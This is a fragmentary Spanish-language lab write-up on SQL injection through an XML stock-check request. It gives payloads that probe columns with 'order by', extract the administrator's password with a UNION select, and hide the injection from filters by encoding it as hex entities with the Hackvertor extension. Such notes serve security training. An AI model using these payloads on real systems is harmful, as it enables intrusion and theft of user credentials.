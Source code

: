 - A través de prueba y error, determinamos que la consulta original solo permite devolver una columna, por lo que concatenamos ‘username‘ y ‘password‘ con un separador (~) para extraer los datos de la tabla ‘users‘ en una sola columna.



<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>5</productId><storeId>1 order by 1</storeId></stockCheck>



(select password from users where username='administrator')

**Usar la extension Hackvertor**



<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>5</productId>
<storeId>
    <@hex_entities>1 union select password from users where username='administrator'</@hex_entities>
</storeId>
</stockCheck>




https://infosecmachines.io/
